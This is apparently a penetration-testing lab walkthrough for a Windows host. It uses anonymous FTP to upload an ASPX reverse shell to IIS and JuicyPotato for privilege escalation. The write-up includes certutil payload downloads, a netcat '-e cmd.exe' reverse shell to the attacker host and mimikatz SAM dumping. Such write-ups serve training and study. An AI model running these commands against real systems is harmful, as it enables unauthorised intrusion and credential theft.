









## Enumeration
### NMAP
```text
PORT      STATE SERVICE            VERSION
21/tcp    open  ftp                Microsoft ftpd
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp  open  ms-sql-s           Microsoft SQL Server 2012 11.00.2100.00; RTM
3389/tcp  open  ssl/ms-wbt-server?
4167/tcp  open  http               Microsoft IIS httpd 8.5
5800/tcp  open  vnc-http           TightVNC (user: disco; VNC TCP port: 5900)
5900/tcp  open  vnc                VNC (protocol 3.8)
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
```

### FTP

Based on the `nmap` scan we are able to login to `ftp` anonymously.

```bash
ftp anonymous@10.11.1.13
```



### Website

A default IIS website is also present on port `4167`.



We can upload an `aspx` webshell and access it via the IIS site on port `4167`.

## Low Privilege Shell

```bash
wget https://raw.githubusercontent.com/glowbase/aspx-reverse-shell/master/shell.aspx
```

Make sure to change these two lines.

```aspx
String host = "127.0.0.1"; //CHANGE THIS
int port = 1234; ////CHANGE THIS
```

In the `ftp` session upload the file.

```bash
put shell.aspx
```

Create a `netcat` listener and access the site.

```bash
rlwrap nc -lnvp 9001
curl http://10.11.1.13:4167/shell.aspx
```



## Shell as Root

We can start by doing some simple enumeration of the target.

```powershell
whoami /priv
```



### Juicy Potato

The first thing I notice is that `SeImpersonatePrivilege` is `enabled`.

We can use a well known exploit called `JuicyPotato`.

We can download it from [here](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
python3 -m http.server 80
```

On the target we can download the exploit into the `temp` directory.

```powershell
cd c:\windows\temp
certutil -urlcache -split -f http://<LHOST>/JuicyPotato.exe JuicyPotato.exe
```

To test this exploit we can first ping our machine from the target. Setup `tcpdump` on our machine to listen for `icmp` traffic from the target.

```bash
sudo tcpdump icmp -i tun0
```

Back on the target we can execute the exploit.

```powershell
.\JuicyPotato.exe -l 1337 -p cmd.exe -a "/c ping <LHOST>" -t *
```

And it looks like it worked!




Now we know the exploit works, we can upload `netcat` and get a shell on the machine.

First copy the `netcat` executable into our local directory on our machine and start a python web server. Also don't forget to create another `netcat` listener on our machine with a different port.
```bash
cp /usr/share/windows-resources/binaries/nc.exe ./
python3 -m http.server 80
rlwrap nc -lnvp 9002
```

Then upload the file to the target.

```powershell
certutil -urlcache -split -f http://<LHOST>/nc.exe nc.exe
```

All we have to do if slightly modify the command we used previously.

```powershell
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "nc.exe <LHOST> <LPORT> -e cmd.exe" -t *
```

And we get a shell!



```powershell
dir /s /p proof.txt 2> nul
```



## Post Exploitation
### Dumping Hashes

I've also uploaded `mimikatz.exe` to dump the SAM.

```
.\mimikatz.exe
lsadump::sam
```

